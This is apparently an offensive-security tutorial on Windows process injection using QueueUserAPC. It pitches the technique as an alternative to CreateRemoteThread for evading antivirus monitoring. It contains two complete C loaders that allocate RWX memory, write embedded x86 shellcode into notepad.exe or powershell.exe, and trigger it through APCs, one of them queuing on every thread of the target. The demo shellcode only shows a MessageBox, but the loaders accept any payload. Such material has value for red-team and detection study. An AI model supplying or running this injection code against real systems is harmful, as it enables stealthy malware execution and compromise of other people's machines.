



# QueueUserAPC Execution
APC stands for Asynchronous Procedure Calls.
An APC is a function call / code that is to be executed within the context of a thread.
Each thread has its own APC queue.
You can queue an APC to a thread using
QueueUserAPC.
There are both user-land and kernel-mode APCs.
In user-land, the thread only gets directed to call the queued APC function when the thread is in an alertable state.
•
https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls•
https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapcLinks•
https://repnz.github.io/posts/apc/user-apc/#queueuserapc-kernelbase-dll-layer - Lots of very good info on APCs and how to force them to execute
◇
https://github.com/repnz/apc-research## QueueUserAPC as an Execution Technqiue
QueueUserAPC is often referred to as an injection technique.
It's not an injection technqiue because the injecting code is done by usual means (WriteProcessMemory etc.)
To be specific, QueueUserAPC is an execution technqiue - execution of injected code (the final stage in a process injection method).
QueueUserAPC can be used to execute code at an address.
This means you can execute functions and shellcode in remote processes, it's not an injection technqiue in itself.
Try mixing it with other injection technqiues.
Another example of an execution technqiue seen in other process injection examples is CreateRemoteThread.
### As an Alternative to CreateRemoteThread
QueueUserAPC can be used as an alternative to
CreateRemoteThread, which is often watched by AV products, because you can achieve exactly the same as what you can with CreateRemoteThread - execute code in threads in remote processes.
For example,
the classic DLL injection technique is to write the path of the DLL into the target process and use CreateRemoteThread to call LoadLibrary in the target process. Instead of using CreateRemoteThread to call LoadLibrary, you could use QueueUserAPC instead. The exact same effect would be achieved.
The code here does exactly that:
https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_QueueUserAPC.cpp### QueueUserAPC Examples
•
https://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1•
https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection•
https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_QueueUserAPC.cpp - injects a DLL by writing DLL path into target and calling LoadLibrary in target with QueueUserAPC by giving it the address of LoadLibrary (also has thread enumeration in process)
## Create Suspended Process -> Inject Shellcode -> Execute with QueueUserAPC
Because threads only get directed to call the queued APC function when the thread is in an alertable state,
you can't guarantee your code will be executed.
By creating a suspended process, you can guarantee execution of your injected shellcode when you resume the process.
Example:
•
https://rinseandrepeatanalysis.blogspot.com/2019/04/early-bird-injection-apc-abuse.html?m=1### Code
Tested on Windows 10 x86 compiled as x86.
Shellcode and binary is x86 because I couldn't find reliable x64 shellcode to spawn a MessageBox.
The code below:
• creates a suspended 32bit Notepad process
• allocates memory inside of it
• writes the shellcode into it
• queues an APC to the thread to execute our shellcode
• resumes the suspended process to execute the shellcode
#include <stdio.h>
#include <Windows.h>
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
void InjectShellcode()
{
BOOL b_ret = TRUE;
DWORD i_ret = 0;
LPVOID target_memory = NULL;
char target_process[] = "C:\\Windows\\System32\\notepad.exe";
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };
b_ret = CreateProcessA(target_process, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
if (b_ret == FALSE)
{
printf("[-] failed to create process: %d \n", GetLastError());
return;
}
else
printf("[+] spawned %s \n", target_process);
target_memory = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (target_memory == NULL)
{
printf("[-] failed to allocate memory in target: %d \n", GetLastError());
return;
}
else
printf("[+] allocated memory in target at: 0x%p \n", target_memory);
b_ret = WriteProcessMemory(pi.hProcess, target_memory, shellcode, sizeof(shellcode), NULL);
if (b_ret == FALSE)
{
printf("[-] failed to write shellcode into target: %d \n", GetLastError());
return;
}
else
printf("[+] wrote shellcode into target at: 0x%p \n", target_memory);
i_ret = QueueUserAPC((PAPCFUNC)target_memory, pi.hThread, 0);
if (i_ret == 0)
{
printf("[-] failed to write QueueUserAPC: %d \n", GetLastError());
return;
}
else
printf("[+] added APC to target process in thread: 0x%p \n", pi.hThread);
ResumeThread(pi.hThread);
return;
}
int main(void)
{
InjectShellcode();
return 0;
}
### Demo
In the image below I've run the code.
In Process Hacker you can see the spawned
notepad.exe process - PID 9496.
At
0x304000, we can see read/write/execute (RWX) memory and our injected shellcode.
And our MesssageBox has spawned!
## Target Existing Process -> Inject Shellcode -> Spam QueueUserAPC on All Threads
Because threads only get directed to call the queued APC function when the thread is in an alertable state,
you can't guarantee your code will be executed.
A solution to this is to spam QueueUserAPC on all the threads in the process.
Hopefully one of them will execute your code at some point.
Therefore, this means that good target processes for QueueUserAPC execution are ones with lots of threads.
The example here uses
explorer.exe as a target:
https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injectionYou can check threads in a process with Process Hacker on the
Threads tab.
### Code
In the code below, I'm targetting a 32bit
powershell.exe process.
The code:
• takes a snapshot of the processes and threads running on the system
• loops through the processes to find my target process -
powershell.exe• opens a handle to the target, allocates memory, and writes my shellcode into it
• loops through the threads to find threads owned by my target process -
powershell.exe• opens a handle to the thread, and runs QueueUserAPC on that thread to execute my shellcode (if it fails, it moves on to the next thread)
Tested on Windows 10 x64 2004.
Compiled as x86 and targetting and an x86 binary (powershell.exe) because I couldn't find reliable x64 MessageBox shellcode.
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
void SpamThreads(void)
{
BOOL b_ret = TRUE;
DWORD i_ret = 0;
HANDLE h_snapshot = NULL;
PROCESSENTRY32 process = { 0 };
THREADENTRY32 thread = { 0 };
process.dwSize = sizeof(PROCESSENTRY32);
thread.dwSize = sizeof(THREADENTRY32);
wchar_t target_process[] = L"powershell.exe";
BOOL process_found = FALSE;
HANDLE h_target_process = NULL;
LPVOID target_shellcode = NULL;
HANDLE h_target_thread = NULL;
// take snapshot of processes
h_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
Process32First(h_snapshot, &process);
// loop until we find our target process
do
{
if (wcscmp(process.szExeFile, target_process) == 0)
{
process_found = TRUE;
break;
}
} while (Process32Next(h_snapshot, &process));
// if process found, write shellcode into target process
if (process_found == FALSE)
{
printf("[-] failed to find target process: %ws \n", target_process);
return;
}
else if (process_found == TRUE)
{
printf("[+] found target process: %ws \n", target_process);
h_target_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process.th32ProcessID);
if (h_target_process == NULL)
{
printf("\t failed to open target process: %d \n", GetLastError());
return;
}
else
printf("\t opened target process \n");
target_shellcode = VirtualAllocEx(h_target_process, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (target_shellcode == NULL)
{
printf("\t failed to allocate memory in target: %d \n", GetLastError());
return;
}
else
printf("\t allocated memory in target at: 0x%p \n", target_shellcode);
b_ret = WriteProcessMemory(h_target_process, target_shellcode, shellcode, sizeof(shellcode), NULL);
if (b_ret == FALSE)
{
printf("\t failed to write shellcode into target: %d \n", GetLastError());
return;
}
else
printf("\t wrote shellcode into target at: 0x%p \n", target_shellcode);
}
// loop through threads, grab thread IDs belonging to target process, and queue an APC call on them
printf("[+] looping through threads... \n");
Thread32First(h_snapshot, &thread);
do
{
if (thread.th32OwnerProcessID == process.th32ProcessID)
{
printf("\t thread ID: 0x%d", thread.th32ThreadID);
h_target_thread = OpenThread(THREAD_SET_CONTEXT, FALSE, thread.th32ThreadID);
if (h_target_thread == NULL)
{
printf(" - open failed: %d - trying next thread \n", GetLastError());
continue;
}
else
printf(" - open success!");
i_ret = QueueUserAPC((PAPCFUNC)target_shellcode, h_target_thread, 0);
if (i_ret == 0)
{
printf(" - queue APC failed: %d trying next thread \n", GetLastError());
CloseHandle(h_target_thread);
continue;
}
else
printf(" - queue APC success! \n");
CloseHandle(h_target_thread);
}
} while (Thread32Next(h_snapshot, &thread));
return;
}
int main(void)
{
SpamThreads();
return 0;
}
In the image below you can see that:
• it's found the target -
powershell.exe• opened a handle to it, allocated memory in it, and written my shellcode into it
• found threads belonging to my target -
powershell.exe - on the system
• and run QueueUserAPC on those threads to execute my shellcode
• 5 instances of shellcode have been run as a result (the 5 "Hello World!" MessageBoxes you see)
In Process Hacker's
Threads tab you can see the threads it has targetted.
And in the
Memory tab you can see the injected shellcode.
